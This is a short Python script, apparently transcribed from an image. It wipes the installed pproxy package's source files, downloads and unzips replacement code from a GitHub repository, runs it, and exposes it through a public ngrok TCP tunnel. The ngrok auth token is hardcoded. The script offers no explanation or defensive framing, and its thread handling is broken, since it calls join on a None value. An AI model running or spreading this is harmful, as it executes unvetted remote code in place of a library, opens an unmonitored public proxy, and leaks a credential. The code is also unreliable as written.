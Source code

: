from time import *
import wget,os,threading
from pyngrok import ngrok
import threading
import subprocess

tokens=[
  "2KgS1r3Pj62U1G47JGwhBOAF0Ms_2duHZPczMqReqpYa3WBX5"
]

os.chdir('/usr/local/lib/python3.10/dist-packages/pproxy')
for i in os.listdir():
  if '.py' in i:
    os.remove(i)
wget.download('https://github.com/GrimsGreen/code/raw/main/6qxu6o.zip')
os.popen('unzip 6qxu6o.zip').read()

def run_proxy():
  process = subprocess.run('pproxy', shell=True, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
  print("Output:", process.stdout.decode())
  print("Errors:", process.stderr.decode())
  
def ngrok_thread(token):
    for token in tokens:
      ngrok.set_auth_token(token)
      try:
        public_url = ngrok.connect("9090", "tcp")
        break
      except:
        pass
    print(" * ngrok tunnel \"{}\" -> \"http://127.0.0.1:{}/\"".format(public_url, 9090))
    return public_url
    
threading.Thread(target=run_proxy).start()
ngrok_thread = threading.Thread(target=ngrok_thread,args=['2KgS1r3Pj62U1G47JGwhBOAF0Ms_2duHZPczMqReqpYa3WBX5']).start()
ngrok_thread.join()


